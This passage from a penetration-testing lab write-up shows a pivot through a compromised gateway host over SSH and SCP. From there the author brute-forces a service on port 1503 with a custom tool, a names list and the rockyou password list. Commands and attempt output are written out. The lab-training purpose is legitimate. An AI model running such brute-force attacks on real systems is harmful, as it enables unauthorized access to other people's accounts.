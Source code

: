 To download the tool you can just clone it from my GitHub repository by running the following command.

```console
root@kali:~# git clone https://github.com/jhalon/PortForce.git
```

Once you have the tool installed on your Linux box, let's go ahead and copy over the tool, the names.txt file, and a password list (preferably the rockyou.txt leak) via SCP to the gw machine to prevent any issues we might encounter using the VPN tunnel.

It would be a smart choice to copy it over to the __/var/tmp__ directory since we have privileges to access that.

```console
root@kali:~/gds# scp port_force.py names.txt rockyou.txt  e.lindsey@192.168.101.9:/var/tmp
e.lindsey@192.168.101.9's password: 
port_force.py                                 100% 6981    56.1KB/s   00:00    
names.txt                                     100%   79     0.7KB/s   00:00    
rockyou.txt                                   100%  133MB 405.2KB/s   05:37
```

Once the transfer is complete, let's log back into the gw machine via SSH and check to make sure that everything is there.

```console
root@kali:~# ssh e.lindsey@192.168.101.9
e.lindsey@192.168.101.9's password: 
Linux tl10-ssh 3.2.0-4-amd64 #1 SMP Debian 3.2.82-1 x86_64
Last login: Thu Dec  1 12:17:26 2016 from 10.10.69.138
e.lindsey@tl10-ssh:~$ cd /var/tmp
e.lindsey@tl10-ssh:/var/tmp$ ls
names.txt  port_force.py  rockyou.txt
```

Awesome, now that we have everything in place, let's start up Port Force and see if we can find the required credentials.

```console
e.lindsey@tl10-ssh:/var/tmp$ python port_force.py -t 192.168.0.6 -p 1503 -u names.txt -P rockyou.txt 
    ____             __     ______                   
   / __ \____  _____/ /_   / ____/___  _____________ 
  / /_/ / __ \/ ___/ __/  / /_  / __ \/ ___/ ___/ _ \ 
 / ____/ /_/ / /  / /_   / __/ / /_/ / /  / /__/  __/
/_/    \____/_/   \__/  /_/    \____/_/   \___/\___/ 

             Created By: Jack Halon (KKB)            
                 Twitter: @jack_halon                


[+] Loading Username and Password List...

[+] Attacking Target:192.168.0.6 on Port:1503

[+] Pinging 192.168.0.6 to verify host connectivity...

[OK] The host 192.168.0.6 is up!

[INFO] Testing User: admin (1/10)
[10:05:21]     [-] Trying 1 of 14344392 - admin:123456
[10:05:21]     [-] Trying 2 of 14344392 - admin:12345
[10:05:22]     [-] Trying 3 of 14344392 - admin:123456789
[10:05:23]     [-] Trying 4 of 14344392 - admin:password
[10:05:23]     [-] Trying 5 of 14344392 - admin:iloveyou
[10:05:24]     [-] Trying 6 of 14344392 - admin:princess
[10:05:24]     [-] Trying 7 of 14344392 - admin:1234567
[10:05:25]     [-] Trying 8 of 14344392 - admin:rockyou
[10:05:25]     [-] Trying 9 of 14344392 - admin:12345678
```